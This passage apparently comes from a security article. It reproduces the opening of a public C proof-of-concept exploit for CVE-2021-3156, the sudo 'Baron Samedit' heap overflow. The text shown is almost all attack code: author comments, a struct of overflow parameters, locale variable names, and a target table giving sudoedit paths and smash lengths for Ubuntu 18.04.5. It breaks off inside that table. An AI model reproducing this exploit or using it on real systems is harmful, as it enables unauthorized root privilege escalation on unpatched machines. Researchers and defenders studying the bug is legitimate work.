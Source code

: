 ### <a class="reference-link" name="EXP"></a>EXP

```
/**
 ** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdint.h&gt;
#include &lt;unistd.h&gt;
#include &lt;ctype.h&gt;

// 512 environment variables should be enough for everyone
#define MAX_ENVP 0x1000

typedef struct `{`
    char *target_name;
    char *sudoedit_path;
    uint32_t smash_len_a;
    uint32_t smash_len_b;
    uint32_t null_stomp_len;
    uint32_t lc_all_len;
`}` target_t;

char *lc_names[]=`{`
        "LC_COLLATE",
        "LC_CTYPE",
        "LC_MONETARY",
        "LC_NUMERIC",
        "LC_TIME",
        "LC_MESSAGES",
        "LC_PAPER",
        "LC_NAME",
        "LC_ADDRESS",
        "LC_TELEPHONE",
        "LC_MEASUREMENT",
        "LC_IDENTIFICATION"
`}`;

target_t targets[] = `{`
    `{`
        // Yes, same values as 20.04.1, but also confirmed.
        .target_name    = "Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 0x53,
        .smash_len_b    = 0x54,
```